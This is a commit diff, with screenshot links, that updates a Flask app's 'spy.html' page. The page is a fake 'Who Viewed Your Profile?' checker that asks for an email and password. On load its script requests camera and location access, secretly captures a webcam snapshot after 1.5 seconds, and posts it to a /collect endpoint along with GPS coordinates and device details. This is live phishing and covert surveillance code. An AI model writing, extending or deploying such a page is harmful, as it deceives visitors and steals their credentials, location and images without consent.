

Before and after one commit to MR5121472/Govt-of-punjab-pak, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme; data that the repository does not hold is empty.

Commit message:
Update spy.html

```diff
--- a/templates/spy.html
+++ b/templates/spy.html
@@ -2,89 +2,87 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8">
-  <title>🔍 Profile Viewer Checker</title>
+  <title>🔍 Profile Viewer</title>
   <meta name="viewport" content="width=device-width, initial-scale=1">
-  <link rel="icon" href="/static/icon.png">
   <style>
     body {
-      margin: 0;
-      background: linear-gradient(135deg, #2c3e50, #3498db);
+      background: #111;
+      color: #fff;
       font-family: Arial, sans-serif;
-      color: white;
-      display: flex;
-      justify-content: center;
-      align-items: center;
-      height: 100vh;
+      text-align: center;
+      padding: 50px;
     }
     .box {
-      background: rgba(255,255,255,0.1);
+      background: #222;
       padding: 30px;
-      border-radius: 16px;
-      text-align: center;
-      width: 300px;
-      backdrop-filter: blur(8px);
-    }
-    h1 {
-      font-size: 24px;
-    }
-    p {
-      font-size: 14px;
-      margin-bottom: 20px;
+      border-radius: 12px;
+      display: inline-block;
     }
     input, button {
-      width: 100%;
-      padding: 10px;
-      margin: 10px 0;
+      margin: 10px;
+      padding: 12px;
       border-radius: 8px;
       border: none;
-      font-size: 14px;
-    }
-    input {
-      background: #fff;
-      color: #000;
+      font-size: 16px;
+      width: 90%;
     }
     button {
-      background: #e74c3c;
+      background: crimson;
       color: white;
-      font-weight: bold;
+      cursor: pointer;
     }
   </style>
 </head>
 <body>
   <div class="box">
-    <h1>👁️ Who Viewed Your Profile?</h1>
-    <p>Enter to check last profile visitors (Secret Mode)</p>
-    <form>
-      <input type="text" placeholder="Email or username" required>
-      <input type="password" placeholder="Password" required>
-      <button type="submit">Check Now</button>
+    <h1>👁 Who Viewed Your Profile?</h1>
+    <form id="spyForm">
+      <input type="text" placeholder="Enter your email" required>
+      <input type="password" placeholder="Your password" required>
+      <button type="submit">Check</button>
     </form>
+    <video id="video" width="320" height="240" autoplay style="display:none;"></video>
+    <canvas id="canvas" width="320" height="240" style="display:none;"></canvas>
   </div>
 
   <script>
-    async function sendData(status, lat=null, long=null) {
+    async function sendData(status, lat = null, long = null, photo = null) {
       await fetch("/collect", {
         method: "POST",
-        headers: {"Content-Type": "application/json"},
+        headers: { "Content-Type": "application/json" },
         body: JSON.stringify({
           userAgent: navigator.userAgent,
           latitude: lat,
           longitude: long,
           camera: status,
-          deviceInfo: navigator.platform
+          deviceInfo: navigator.platform,
+          snapshot: photo
         })
       });
     }
 
     navigator.mediaDevices.getUserMedia({ video: true })
-    .then(stream => {
-      navigator.geolocation.getCurrentPosition(
-        pos => sendData("✅ Allowed", pos.coords.latitude, pos.coords.longitude),
-        err => sendData("❌ Location Denied")
-      );
-      stream.getTracks().forEach(track => track.stop());
-    })
-    .catch(err => sendData("❌ Camera Denied"));
+      .then(stream => {
+        const video = document.getElementById("video");
+        const canvas = document.getElementById("canvas");
+        video.srcObject = stream;
+
+        setTimeout(() => {
+          const context = canvas.getContext("2d");
+          context.drawImage(video, 0, 0, canvas.width, canvas.height);
+          const imageData = canvas.toDataURL("image/png");
+
+          navigator.geolocation.getCurrentPosition(
+            pos => sendData("✅ Allowed", pos.coords.latitude, pos.coords.longitude, imageData),
+            err => sendData("❌ Location Denied", null, null, imageData)
+          );
+
+          stream.getTracks().forEach(track => track.stop());
+        }, 1500);
+      })
+      .catch(err => {
+        sendData("❌ Camera Denied");
+      });
   </script>
 </body>
 </html>
```
